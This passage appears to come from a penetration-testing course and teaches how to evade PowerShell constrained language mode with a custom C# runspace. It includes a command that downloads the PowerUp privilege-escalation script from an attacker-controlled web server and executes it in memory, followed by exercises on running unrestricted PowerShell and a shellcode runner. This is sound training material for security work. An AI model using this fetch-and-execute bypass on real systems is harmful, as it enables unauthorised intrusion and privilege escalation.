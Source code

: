 As an expanded use case, let's leverage the custom runspace to fetch and execute the _PowerUp_[10](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5222-10) PowerShell privilege escalation enumeration script. We'll download the script and copy it to our Kali machine's Apache webserver, and update the C# application to invoke inside the custom runspace:

```
String cmd = "(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/PowerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath C:\\Tools\\test.txt";
```

> Listing 17 - Script to fetch and execute PowerUp in a custom runspace

Once the C# project has been modified with the new script and recompiled, we can execute the C# executable and enumerate possible avenues of privilege escalation:

```
C:\Users\student> C:\Windows\Tasks\Bypass.exe
C:\Users\student> type C:\Tools\test.txt

[*] Running Invoke-AllChecks


[*] Checking if user is in a local group with administrative privileges...


[*] Checking for unquoted service paths...
...
```

> Listing 18 - Executing PowerUp while bypassing constrained language mode

The power of custom runspaces allows us to reuse all our previous PowerShell-based tradecraft. However, we are still hindered by AppLocker's C# executable rules. In the next section, we'll solve this problem by using a technique called living off the land, in which we misuse a native Windows application.

#### Exercises

1. Recreate the application shown in this section to set up a custom runspace and execute arbitrary PowerShell code without limitations.
2. Modify the C# code to implement our PowerShell shellcode runner.
3. Create an AppLocker deny rule for C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe and verify that this does not hinder our custom runspace.

1

(Microsoft, 2015), [https://devblogs.microsoft.com/scripting/beginning-use-of-powershell-runspaces-part-1/](https://devblogs.microsoft.com/scripting/beginning-use-of-powershell-runspaces-part-1/) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5222-1)

2

(Microsoft, 2020), [https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.runspaces.runspace?view=powershellsdk-1.1.0](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.runspaces.runspace?view=powershellsdk-1.1.0) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5222-2)

